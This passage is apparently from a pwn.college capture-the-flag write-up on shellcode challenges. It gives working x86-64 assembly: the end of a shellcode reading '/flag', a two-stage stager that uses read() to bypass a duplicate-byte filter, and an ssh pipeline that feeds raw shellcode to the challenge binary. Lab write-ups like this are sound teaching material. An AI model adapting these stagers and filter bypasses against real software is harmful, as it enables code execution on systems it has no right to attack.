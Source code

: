 ```assembly
  nop
  nop
  nop
  nop
  nop
  nop

.byte 0xFF, 0xFF, 0xFF
flag: .ascii "/flag"
```

#### 9
Solution for 8 works here as well, maybe I tried too hard in the previous one?

#### 10
Now this one is tough, we can't use duplicated bytes in our shellcode. No way we can input the whole code once then, we need a **2 stage** exploit, we need to read in another shellcode and run that to bypass the filter. Here is the code that does that, and we can run the shellcode for the 1st stage:

```assembly
.global _start

_start:
  xorq %rdi, %rdi
  addb $0xd, %dl
  pushq %rdx
  popq %rsi
  pushq $0x44
  popq %rdx
  syscall
```

In order to keep stdin open and control the outputs, we can use this command:
```bash
(cat 10.raw; sleep 30; cat 1.raw) | ssh cse466@cse466.pwn.college /babyshell_level10_testing1
```

#### 11

TODO